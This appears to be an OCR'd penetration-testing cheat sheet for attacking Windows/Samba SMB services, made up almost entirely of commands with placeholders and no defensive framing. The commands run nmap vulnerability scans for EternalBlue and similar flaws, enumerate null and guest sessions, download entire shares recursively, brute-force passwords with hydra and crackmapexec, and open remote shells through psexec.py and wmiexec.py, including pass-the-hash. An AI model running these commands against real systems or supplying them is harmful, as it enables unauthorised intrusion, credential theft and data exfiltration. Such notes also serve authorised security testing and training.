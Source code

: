 **Version if nmap didn´t detect it**
> sudo ngrep -i -d <INTERFACE> 's.?a.?m.?b.?a.*[[:digit:]]' port 139
> smbclient -L <IP>

**Scan for vulnerability**
> nmap -p139,445 --script "smb-vuln-* and not(smb-vuln-regsvc-dos)" --script-args smb-vuln-cve-2017-7494.check-version,unsafe=1 <IP>

**If :**

- MS17-010 - EternalBlue
- MS08-067 - MS08-067
- CVE-2017-7494 - CVE-2017-7494

**Manual testing**
> smbmap -H <IP>
> smbmap -u '' -p '' -H <IP>
> smbmap -u 'guest' -p '' -H <IP>
> smbmap -u '' -p '' -H <IP> -R

> crackmapexec smb <IP>
> crackmapexec smb <IP> -u '' -p ''
> crackmapexec smb <IP> -u 'guest' -p ''
> crackmapexec smb <IP> -u '' -p '' --shares

> enum4linux -a <IP>

> smbclient --no-pass -L //$IP
> smbclient //<IP>/<SHARE>

# Download all files from a directory recursively
> smbclient //<IP>/<SHARE> -U <USER> -c "prompt OFF;recurse ON;mget *"

**Brute force**
> crackmapexec smb <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
> hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> smb://<IP> -u -vV


# Mount a SMB share

> mkdir /tmp/share
> sudo mount -t cifs //<IP>/<SHARE> /tmp/share
> sudo mount -t cifs -o 'username=<USER>,password=<PASSWORD>'//<IP>/<SHARE> /tmp/share

> smbclient //<IP>/<SHARE>
> smbclient //<IP>/<SHARE> -U <USER>

# Get a shell
> psexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
> psexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

> wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
> wmiexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>
